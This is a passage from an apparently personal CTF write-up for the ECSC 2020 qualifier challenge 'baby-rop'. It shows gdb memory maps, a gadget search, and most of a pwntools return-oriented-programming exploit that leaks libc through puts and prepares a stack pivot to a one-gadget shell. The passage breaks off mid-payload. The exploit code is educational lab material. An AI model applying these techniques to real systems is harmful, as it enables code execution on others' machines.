 0x00007f6631aba000 0x00007f6631abd000 rw-p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu9_amd64.so
0x00007f6631abd000 0x00007f6631ac3000 rw-p	mapped
0x00007f6631ac3000 0x00007f6631ac4000 r--p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007f6631ac4000 0x00007f6631ac5000 rw-p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007f6631ac5000 0x00007f6631ac6000 rw-p	mapped
0x00007fff56ea7000 0x00007fff56ec8000 rw-p	[stack]
0x00007fff56f3b000 0x00007fff56f3e000 r--p	[vvar]
0x00007fff56f3e000 0x00007fff56f40000 r-xp	[vdso]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
gdb-peda$
{% endhighlight %}

Memory block 0x00404000-0x00405000 is readable and writeable, so it is a very good candidate, even though it is not eactly the stack. I chose to set RBP to 0x00404500, which is in the middle of that memory block. The gadget that pops rbp can be easily found using rp++:

{% highlight auto %}
$ rp-lin-x64 -f pwn_baby_rop  -r 1 | grep 'pop rbp'
0x0040115d: pop rbp ; ret  ;  (1 found)
{% endhighlight %}

The final script:

{% highlight python %}
from pwn import *

env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu9_amd64.so"}
io = process("./pwn_baby_rop", env=env)

io.recvuntil("black magic.\n")

#gdb.attach(io)


# 1st stage
main = 0x40145C
puts = 0x401030
puts_got = 0x404018
pop_rdi = 0x00401663

payload = b""
payload += b"A" * 264
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)

puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info('puts address: ' + hex(puts_addr))
puts_offset = 0x0875a0
libc_base = puts_addr - puts_offset
log.info('LIBC base address: ' + hex(libc_base))


# 2nd stage
pop_rsi_r15 = 0x00401661
pop_rdx_r12 = libc_base + 0x0011c1e1
sys_gadget = libc_base + 0xe6ce9
log.info('gadget address: ' + hex(sys_gadget))

pop_rbp = 0x0040115d
new_rbp_value = 0x00404500

payload = b""